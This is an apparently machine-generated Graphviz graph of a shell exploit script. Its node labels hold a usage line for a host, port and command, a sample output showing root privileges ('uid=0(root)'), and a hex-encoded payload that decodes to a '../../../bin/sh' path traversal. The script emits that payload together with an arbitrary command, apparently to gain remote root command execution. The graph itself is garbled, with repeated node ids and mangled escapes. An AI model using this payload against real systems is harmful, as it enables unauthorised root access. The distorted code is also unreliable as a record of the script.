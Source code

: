 digraph {
0 [label="[ $# -lt 3 ] "];
0 -> 0
2 [label="echo -en Syntax: `basename ${0}` <host> <port> <commands>nn`basename ${0}` 10.22.33.44 5555 id nX15 [12:1] uid=0(root) gid=0(root)\r\n "];
2 -> 6 [label="&&,"];
6 [label="basename ${0} "];
6 -> 6 [label="N,"];
6 [label="basename ${0} "];
6 -> 8 [label="N,"];
8 [label="exit 0\r "];
8 -> 54 [label="&&,"];
54 [label="\r "];
54 -> 54
12 [label=", word=\"HOST=`echo ${@} | awk '{print $1}'`\r\" "];
12 -> 12
26 [label="echo ${@} "];
26 -> 16 [label="N,N,N,"];
16 [label="awk {print $1} "];
16 -> 18 [label="N,"];
18 [label=", word=\"PORT=`echo ${@} | awk '{print $2}'`\r\" "];
18 -> 18
26 [label="echo ${@} "];
26 -> 22 [label="N,N,N,"];
22 [label="awk {print $2} "];
22 -> 24 [label="N,"];
24 [label=", word=\"CMD=`echo ${@} | sed 's/'$HOST'.*'${PORT}'\\ \\ *//g'`\r\" "];
24 -> 24
26 [label="echo ${@} "];
26 -> 28 [label="N,N,N,"];
28 [label="sed , word=\"s/'$HOST'.*'${PORT}'\\ \\ *//g\") "];
28 -> 30 [label="N,"];
30 [label="SC=\r "];
30 -> 30
32 [label="SC=${SC}x00x00x00xa4x20x32x00x20x2dx2dx63x68x30x6bx73x2d\r "];
32 -> 34 [label="N,"];
34 [label="SC=${SC}x00x20x30x00x20x53x59x53x54x45x4dx00x20x2dx63x68\r "];
34 -> 36 [label="N,"];
36 [label="SC=${SC}x30x6bx73x2dx2dx00x20x43x00x20x32x30x00x20x2dx2d\r "];
36 -> 38 [label="N,"];
38 [label="SC=${SC}x63x68x30x6bx73x2dx00x20x50x6fx63x00x20x2dx72x30\r "];
38 -> 40 [label="N,"];
40 [label="SC=${SC}x30x74x2dx72x30x30x74x2dx00x20x2dx72x30x30x74x2d\r "];
40 -> 42 [label="N,"];
42 [label="SC=${SC}x72x30x30x74x2dx00x20x2dx72x30x30x74x2dx72x30x30\r "];
42 -> 44 [label="N,"];
44 [label="SC=${SC}x74x2dx00x20x30x00x20x30x00x20x2ex2ex2fx2ex2ex2f\r "];
44 -> 46 [label="N,"];
46 [label="SC=${SC}x2ex2ex2fx2ex2ex2fx2ex2ex2fx2ex2ex2fx2ex2ex2fx2e\r "];
46 -> 48 [label="N,"];
48 [label="SC=${SC}x2ex2fx2ex2ex2fx62x69x6ex2fx73x68x00x00x00x00x00\r "];
48 -> 50 [label="N,"];
50 [label="SC=${SC}x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00\r "];
50 -> 52 [label="N,"];
52 [label="SC=${SC}x00x00x00x00x00x00x00x00x00\r "];
52 -> 54 [label="N,"];
54 [label="\r "];
54 -> 56 [label="N,"];
56 [label="SHELLCODE=${SC}\r "];
56 -> 56
58 [label="echo -en ${SHELLCODE} "];
58 -> 60 [label="N,N,SC,(,"];
60 [label="echo ${CMD} "];
60 -> 61 [label=";,"];
}

